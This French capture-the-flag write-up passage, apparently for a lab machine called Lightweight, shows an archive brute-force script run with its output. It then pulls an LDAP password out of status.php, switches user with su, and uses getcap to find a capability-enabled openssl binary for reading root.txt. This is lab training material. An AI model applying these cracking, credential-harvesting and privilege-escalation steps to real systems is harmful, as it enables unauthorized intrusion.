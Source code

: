 Si vous avez des problèmes d'indentations vous avez juste à allez dans ma page Github et il y'a une repositories qui se nomme 7z-BruteForce vous avez juste à git clone ça ! ;)

	root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# python params.py backup.7z /usr/share/wordlist/directory-list-2.3-medium.txt

Pour la liste je vous conseille d'utiliser rockyou.txt. Personnellement le bruteforce à pris seulement environ 10 minutes.

	[-] Password not cracked : help
	[-] Password not cracked : events
	[-] Password not cracked : archive
	[-] Password not cracked : 02
	[-] Password not cracked : register
	[-] Password not cracked : en
	[-] Password not cracked : forum
	[-] Password not cracked : software
	[-] Password not cracked : downloads
	[-] Password not cracked : 3

	[+] Password cracked with success : delete

Parfait nous avons cracker le mot de passe. Le mot de passe est **delete** donc vous pouvez extraires les fichiers backup. Si nous regardons le fichier **status.php**.

	root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# cat status.php|grep -e 'username' -e 'password'
	$username = 'ldapuser1';
	$password = 'f3ca9d298a553da117442deeb6fa932d';
	if ($bind=ldap_bind($ds, $dn, $password)) {

Parfait nous avons trouver le mot de passe pour accéder à l'utilisateur **ldapuser1**. On se connecte avec la commande **su**.

	[10.10.12.232@lightweight ~]$ su - ldapuser1
	Mot de passe : 
	Dernière connexion : dimanche 30 décembre 2018 à 09:11:32 GMT sur pts/1
	[ldapuser1@lightweight ~]$ 

PrivEsc
----
Maintenant nous passons au root. Le root n'est pas très compliqué.

Nous allons reutiliser la commande **getcap**.

	[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
	/usr/bin/ping = cap_net_admin,cap_net_raw+p
	/usr/sbin/mtr = cap_net_raw+ep
	/usr/sbin/suexec = cap_setgid,cap_setuid+ep
	/usr/sbin/arping = cap_net_raw+p
	/usr/sbin/clockdiff = cap_net_raw+p
	/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
	/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
	/home/ldapuser1/openssl =ep

Comme vous pouvez le voir il y'a un fichier qui se nomme openssl nous avons juste à lire le fichier root.txt avec la commande openssl.
